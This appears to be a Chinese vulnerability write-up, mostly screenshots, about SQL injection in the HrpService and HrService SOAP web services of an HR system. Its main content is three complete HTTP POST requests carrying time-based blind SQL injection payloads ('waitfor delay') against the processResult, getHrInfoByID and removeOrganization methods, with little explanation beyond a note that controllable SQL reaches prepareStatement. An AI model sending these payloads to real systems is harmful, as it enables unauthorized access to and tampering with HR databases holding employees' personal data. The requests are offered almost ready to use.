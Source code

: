 ![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVmoHbbmRoxPNzYU5pP8ibYvaEY5B966VsZjib0zQ54wwUNlSDXZfMgRLw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVH0ib4rL6ObptXEmdtcAMfxY7VhvCSvbW4L6IJ28aA3ow1YH536ZZ7Ew/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVPunGun0EEicFhDqMWpUlTQSqlv7iakGovD7C35avKsicBuk0zCab2qu7g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwV8aI7ogsMXU35icdzR3jHnOPlMXMsbG8AUwia1OF4nicrg080ibyt3kSkaw/640?wx_fmt=png&from=appmsg "")  
  
  
之前的sql语句被prepareStatement执行，预编译的sql语句可控，最终造成了sql注入，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVmGAtSicMibLu1zmXcG91V9vCELJNM8bthU35BYAUpXa2osMSgCdkTmDw/640?wx_fmt=png&from=appmsg "")  
  
  
HrpService接口sql注入，  
  
```
POST /services/HrpService HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/xmlCookie: xxxContent-Length: 353<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrpService">   <soapenv:Header/>   <soapenv:Body>      <hr:processResult>         <arg0>1);waitfor delay '0:0:5'--</arg0>         <arg1></arg1>      </hr:processResult>   </soapenv:Body></soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVh2xtNIUiaVVdOfsR3nGpBtC8icC8taEZ4zoFWKoB2bhTdkl6TiaC9kxLg/640?wx_fmt=png&from=appmsg "")  
  
  
此接口的其他方法也存在sql注入，  
  
```
POST /services/HrpService HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/xmlCookie: xxxContent-Length: 500<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrpService">   <soapenv:Header/>   <soapenv:Body>      <hr:getHrInfoByID>         <arg0>1</arg0>        <arg1>1';waitfor delay '0:0:10'--</arg1>        <arg2>1</arg2>        <arg3>1</arg3>        <arg4>1</arg4>        <arg5>1</arg5>        <arg6>1</arg6>      </hr:getHrInfoByID>   </soapenv:Body></soapenv:Envelope>
```  
  
HrService接口sql注入，  
  
```
POST /services/HrService HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/xmlCookie: xxxContent-Length: 356<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrService">   <soapenv:Header/>   <soapenv:Body>      <hr:removeOrganization>         <arg0>aaaaaaaaaaaaaaaaaa';waitfor delay '0:0:10'--</arg0>      </hr:removeOrganization>   </soapenv:Body></soapenv:Envelope>
```  
  